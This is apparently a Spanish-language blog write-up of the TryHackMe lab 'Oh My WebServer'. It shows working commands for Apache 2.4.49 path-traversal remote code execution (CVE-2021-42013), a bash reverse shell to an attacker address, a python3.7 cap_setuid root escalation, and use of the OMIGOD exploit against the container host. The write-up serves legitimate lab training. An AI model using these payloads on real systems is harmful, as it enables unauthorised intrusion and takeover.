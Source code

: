 ```yaml
---
title : "Oh My WebServer - Write Up - Español"
date : 2022-03-05T09:34:39+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "Máquina de nivel medio en TryHackMe."
tags : ["CVE-2021-42013","RCE","Apache","Docker","OMIGOD","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/ohmyweb) | Medio | [tinyb0y](https://tryhackme.com/p/tinyb0y)  |

## Reconocimiento
¡Ey! ¡Bienvenido de nuevo!

Una vez más estamos ejecutando `nmap` contra esta máquina, ¡para ver qué servicios se están ejecutando!

```bash
└──╼ $sudo nmap -sS -sV -sC --min-rate 5000 10.10.239.45 -Pn -n
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-05 15:13 CET
Nmap scan report for 10.10.239.45
Host is up (0.13s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Consult - Business Consultancy Agency Template | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Una máquina normal, con solo 2 puertos comunes abiertos...

Pero una cosa que nos llamó la atención:
El servidor web (Puerto 80) se ejecuta en `apache/2.4.49`.
¡Para esa versión tenemos un CVE-2021-42013! Puede encontrar más información al respecto [aquí](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013).

Solo para confirmar la versión, hicimos una simple solicitud `curl` a la máquina, para verificar el encabezado `Servidor`.
```bash
└──╼ $curl -v http://10.10.239.45 | head
*   Trying 10.10.239.45:80...
 GET / HTTP/1.1
 Host: 10.10.239.45
 User-Agent: curl/7.74.0
 Accept: */* 

* Mark bundle as not supporting multiuse
HTTP/1.1 200 OK
Date: Sat, 05 Mar 2022 14:16:00 GMT
Server: Apache/2.4.49 (Unix)
Last-Modified: Wed, 23 Feb 2022 05:40:45 GMT
ETag: "e281-5d8a8e82e3140"
Accept-Ranges: bytes
Content-Length: 57985
Content-Type: text/html
```
Y para verificar el posible exploit, revisamos la carpeta `cgi-bin`.

```bash
└──╼ $curl http://10.10.239.45/cgi-bin/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
</body></html>
```
¡Y está activo!
¡Entonces podemos ejecutar el exploit y probar suerte!

```bash
└──╼ $curl 'http://10.10.239.45/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami && pwd && id' -H "Content-Type: text/plain"
daemon
/bin
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
¡Si! ¡Tenemos `RCE`!

## Acceso inicial - Usuario

Para obtener una `shell reversa` usamos 2 terminales. La primera está haciendo una solicitud con el exploit y la segunda está esperando la conexión.
```bash
=====Terminal 1======

└──╼ $curl 'http://10.10.239.45/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.9.1.30/1337 0>&1' -H "Content-Type: text/plain"


=====Terminal 2======

└──╼ $nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.9.1.30] from (UNKNOWN) [10.10.239.45] 40344
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@4a70924bafa0:/bin$ id;whoami;pwd
id;whoami;pwd
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon
/bin
daemon@4a70924bafa0:/bin$

```

¡Y estamos dentro! Pero estamos ejecutando como un `daemon`, por lo que no podemos obtener la `bandera de usuario` :/

Al enumerar la máquina, descubrimos que el binario `python3.7` tiene la capacidad `cap_setuid` establecida. (Puede obtener más información sobre cómo explotar esto con [GTFOBIN](https://gtfobins.github.io/gtfobins/python/#capabilities)).

```bash
daemon@4a70924bafa0:/bin$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep

daemon@4a70924bafa0:/bin$ python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1(daemon) groups=1(daemon)
# cat /root/user.txt
THM{[REDACTADO]}
```
¡Sí! ¡Ahora somos root dentro de un contenedor `docker` y podemos enviar el indicador de usuario!

## Root

Después de enumerar _bastante_ la máquina, simplemente supusimos que tal vez haya otra máquina (en este caso, el host de los contenedores) en la IP adyacente. Básicamente, que el host está en `172.17.0.1`, ya que somos la `172.17.0.2`

```bash
root@4a70924bafa0:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 3122  bytes 383708 (374.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2172  bytes 2759329 (2.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2  bytes 100 (100.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2  bytes 100 (100.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
Para confirmar esta suposición, cargamos un binario estático de `nmap` desde nuestra máquina. Puede descargarlo desde [aquí](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap).
Y lo ejecutamos contra la IP del supuesto Host.
```bash
root@4a70924bafa0:/tmp# ./nmap 172.17.0.1 -p- --min-rate 5000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-03-05 14:48 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.0014s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:1A:89:70:8B (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 39.82 seconds
```
¡Sí! ¡Teníamos razón!
¡Y tenemos algunos puertos abiertos!

Buscando en Google `exploit del servicio del puerto 5986`, encontramos este POC:

https://github.com/AlteredSecurity/CVE-2021-38647

Este exploit es contra el servicio `OHMIGOD`, que comúnmente se ejecuta en puertos como `5986`.

¡Descargué el exploit en la máquina de la víctima y traté de explotarlo!

```bash
root@4a70924bafa0:/tmp# python3 exp.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a;cat /root/root.txt;'
root
/var/opt/microsoft/scx/tmp
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Linux ubuntu 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
THM{[REDACTADO]}
```
¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!